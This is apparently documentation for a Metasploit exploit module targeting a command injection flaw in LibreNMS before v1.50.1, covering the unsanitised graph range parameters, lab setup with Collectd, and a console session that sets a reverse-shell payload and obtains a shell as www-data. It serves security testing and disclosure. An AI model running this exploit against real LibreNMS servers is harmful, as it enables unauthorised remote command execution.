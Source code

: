 ## Description

  A command injection vulnerability exists in LibreNMS versions prior to `v1.50.1`.

  The injection vulnerability affects the Collectd graphing functionality. Specifically, the `to` and
  `from` parameters used in the range for graphing are sanitized with the `mysqli_escape_real_string()`
  which ignores certain characters, including backticks. These improperly sanitized parameters are then
  used in a shell command that gets executed via the `passthru()` function.

  This module has been tested on LibreNMS `v1.46` and `v.1.50`.

## Vulnerable Application

  A vulnerable version of LibreNMS (v1.50) in the form of an OVA can be downloaded [here](https://github.com/librenms/packer-builds/releases/tag/1.50).

  Login credentials can be found on the official LibreNMS [site](https://docs.librenms.org/Installation/Images/).

  Collectd will need to be set up with LibreNMS for this exploit to work. These instructions
  are for the Ubuntu OVA.
  
  ```sudo apt-get install collectd```

  Open the Collectd config file `/etc/collectd/collectd.conf`
  and uncomment the global options for the `Hostname` and `BaseDir`.
  Next, uncomment the lines for the cpu plugin.
  The plugin should look similar to this:

  ```
  <Plugin cpu>
    ReportByCpu true
    ReportByState true
    ValuesPercentage false
  </Plugin>
  ```

  Next, find the `rrdtool` plugin and ensure it looks like this:

  ```
  <Plugin rrdtool>
     DataDir "/var/lib/collectd/rrd"
     CacheTimeout 120
     CacheFlush   900
  </Plugin>
  ```

  Save and exit

  Now open `/etc/collectd/collectd.conf.d/rrdtool.conf` and add

  ```
  LoadPlugin rrdtool
  <Plugin rrdtool>
    DataDir "/var/lib/collectd/rrd"
    CacheTimeout 120
    CacheFlush   900
  </Plugin>
  ```

  Save and exit, then restart the Collectd service:

  ```sudo systemctl restart collectd```

  Lastly, add these two lines to the LibreNMS config file,
  `/opt/librenms/config.php`:

  ```
  $config['collectd_dir']                 = '/var/lib/collectd/rrd';
  $config['collectd_sock']                 = 'unix:///var/run/collectd.sock';
  ```

  Now save and exit.

  You can verify that Collectd is set up with LibreNMS by viewing the
  `localhost` device in LibreNMS and noting that there should be a Collectd
  tab on the device's main page.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/librenms_collectd_cmd_inject```
  4. Do: ```set RHOSTS <ip>```
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <pass>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on LibreNMS `v1.46`

  ```
  msf5 > use exploit/linux/http/librenms_collectd_cmd_inject 
  msf5 exploit(linux/http/librenms_collectd_cmd_inject) > set rhosts 192.168.37.133
  rhosts => 192.168.37.133
  msf5 exploit(linux/http/librenms_collectd_cmd_inject) > set username blah
  username => blah
  msf5 exploit(linux/http/librenms_collectd_cmd_inject) > set password password
  password => password
  msf5 exploit(linux/http/librenms_collectd_cmd_inject) > set payload cmd/unix/reverse
  payload => cmd/unix/reverse
  msf5 exploit(linux/http/librenms_collectd_cmd_inject) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(linux/http/librenms_collectd_cmd_inject) > check
  [*] 192.168.37.133:80 - The target service is running, but could not be validated.
  msf5 exploit(linux/http/librenms_collectd_cmd_inject) > run

  [*] Started reverse TCP double handler on 192.168.37.1:4444 
  [*] Successfully logged into LibreNMS. Storing credentials...
  [*] LibreNMS version: 1.46
  [*] Sending payload via device 122
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [*] Command: echo 67Fk9T3DyODcIsbL;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "Trying: not found\r\nsh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\n67Fk9T3DyODcIsbL\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 3 opened (192.168.37.1:4444 -> 192.168.37.133:50462) at 2019-08-12 15:43:16 -0500

  whoami
  www-data
  uname -a
  Linux ubuntu 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  ```
